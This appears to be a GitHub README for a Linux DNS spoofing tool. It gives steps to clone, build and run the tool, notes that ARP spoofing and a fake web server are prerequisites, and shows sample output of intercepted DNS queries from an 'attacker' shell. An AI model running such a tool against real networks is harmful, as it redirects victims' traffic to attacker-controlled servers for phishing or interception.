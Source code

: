 # DNS-Spoof
Linux DNS Spoofing tool

* You must arp-spoofing before dns-spoofing, and need fake web server.

1. Clone this project
```
[root@attacker dns_spoof]# git clone https://github.com/tear94fall/DNS-Spoof.git
[root@attacker dns_spoof]# ls -al  
합계 20  
drwxr-xr-x  3 test test    70 11월 14 17:46 .  
drwxr-xr-x. 6 root root   112 11월 14 14:23 ..  
drwxr-xr-x  8 root root   166 11월 14 17:47 .git  
-rw-rw-rw-  1 root root 10957 11월 14 17:46 main.cpp  
-rw-rw-rw-  1 test test    90 11월 13 10:36 makefile  
-rw-rw-rw-  1 root root  1132 11월 14 16:01 protocol.hpp  
```

2. Build project
```
[root@attacker dns_spoof]# make  
gcc main.cpp -o main -lnet -lpcap -lpthread  
```

3. Execute with info
```
[root@attacker dns_spoof]# ./main <target_domain> <fake web server>
1 :  intf1
2 :  intf333
...  
```  

4. Choose the network interface and wait  
```
[root@attacker dns_spoof]# ./main <target_domain> <fake web server>
1 :  intf1
2 :  intf333
...  
Enter the interface number you would like to sniff : 1
dns-spoofing: linstening on <network interface> [udp dst port 53 and not src <fake web server>]
192.168.0.123.38812 > 192.168.0.1.53:  9108+ A? www.google.com
192.168.0.74.36095 > 192.168.0.1.53:  <DNS id>+ A? <target_domain>

```
